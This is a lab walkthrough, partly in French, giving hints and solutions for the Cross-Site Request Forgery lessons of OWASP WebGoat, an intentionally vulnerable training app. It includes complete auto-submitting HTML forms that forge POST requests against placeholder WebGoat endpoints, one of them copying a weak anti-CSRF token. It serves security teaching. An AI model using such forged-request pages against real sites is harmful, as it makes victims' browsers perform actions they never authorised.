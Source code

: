 #### **(A8:2013) Request Forgery:**

##### Cross-Site Request Forgeries

3.  
![Hint](images/wiki_owasp_webgoat/hint.png) The form has hidden inputs.  
![Hint](images/wiki_owasp_webgoat/hint.png) You will need to use an external page and/or script to trigger it.  
![Hint](images/wiki_owasp_webgoat/hint.png) Try creating a local page or one that is uploaded and points to this form as its action.  
![Hint](images/wiki_owasp_webgoat/hint.png) The trigger can be manual or scripted to happen automatically

Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur.

```html
<form name="attack" action="http://host:port/WebGoat/csrf/basic-get-flag" method="POST">  
     <input type="hidden" name='csrf' value='true'>  
</form>  
<script>document.attack.submit();</script>  
```

4.  
![Hint](images/wiki_owasp_webgoat/hint.png) Again, you will need to submit from an external domain/host to trigger this action. While CSRF can often be triggered from the same host (e.g. via persisted payload), this doesn't work that way.  
![Hint](images/wiki_owasp_webgoat/hint.png) Remember, you need to mimic the existing workflow/form.  
![Hint](images/wiki_owasp_webgoat/hint.png) This one has a weak anti-CSRF protection, but you do need to overcome (mimic) it

Sauvegarder le code suivant dans un fichier **csrf.html** et l'ouvrir dans un navigateur.

```html
<form name="attack" action="http://host:port/WebGoat/csrf/review" method="POST">  
     <input type="hidden" name='reviewText' value='This App Rocks'>  
     <input type="hidden" name='stars' value='5'>  
     <input type="hidden" name='validateReq' value='2aa14227b9a13d0bede0388a7fba9aa9'>  
</form>  
<script>document.attack.submit();</script>  
```

7.  
![Hint](images/wiki_owasp_webgoat/hint.png) Look at the content-type.  
![Hint](images/wiki_owasp_webgoat/hint.png) Try to post the same message with content-type text/plain  
![Hint](images/wiki_owasp_webgoat/hint.png) The json can be put into a hidden field inside
